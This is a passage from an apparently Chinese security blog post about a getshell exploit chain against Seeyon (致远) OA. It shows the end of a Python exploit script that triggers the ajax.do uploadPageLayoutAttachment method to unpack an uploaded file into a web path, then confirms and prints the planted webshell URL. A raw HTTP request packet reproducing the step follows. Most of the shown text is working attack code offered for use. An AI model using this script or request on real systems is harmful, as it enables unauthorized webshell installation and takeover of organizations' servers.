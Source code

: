 ```
            print('未获取到文件id可能上传失败！')
        print('上传成功文件id为---->>:'+fileid)
        Date_time = time.strftime('%Y-%m-%d')
        headersfile2 = {'Content-Type': 'application/x-www-form-urlencoded','Cookie': "JSESSIONID=%s" % jsessionid}
        getshellurl = urllist+'/seeyon/ajax.do'
        data = 'method=ajaxAction&managerName=portalDesignerManager&managerMethod=uploadPageLayoutAttachment&arguments=%5B0%2C%22' + Date_time + '%22%2C%22' + fileid + '%22%5D'
        getshell = requests.post(url=getshellurl,data=data,headers=headersfile2)
        time.sleep(1)
        webshellurl1 = urllist + '/seeyon/common/designer/pageLayout/' + webshell_name1
        shelllist = requests.get(url=webshellurl1)
        if shelllist.status_code == 200:
            print('利用成功webshell地址：'+webshellurl1)
        else:
            print('未找到webshell利用失败')



def main():
    if (len(sys.argv) == 2):
        url = sys.argv[1]
        Seeyon_Getshell(url)
    else:
        print("python3 Seeyon_Getshell.py http://xx.xx.xx.xx")

if __name__ == '__main__':
    main()
```

```
https://www.ailiqun.xyz/2021/04/10/%E8%87%B4%E8%BF%9COA-%E7%BB%84%E5%90%88getshell/
```

![](https://mmbiz.qpic.cn/mmbiz/7D2JPvxqDTFLHfPb8bEibsj7VDYNMzj0ibKolwNNYhtAqe4QyTJ5s41B6AxmUGgewvserORhz3k0nwrlNricgPH7Q/640?wx_fmt=other)

### 3. 解压文件得到 shell

漏洞文件

```
/seeyon/ajax.do
```

```
数据包：
```

```
POST /seeyon/ajax.do HTTP/1.1
Host: 192.168.1.88:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=A4D1CCA965228F523B70833968568BE6
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 142
method=ajaxAction&managerName=portalDesignerManager&managerMethod=uploadPageLayoutAttachment&arguments=[0,"2021-04-10","2708692024033719158"]
```
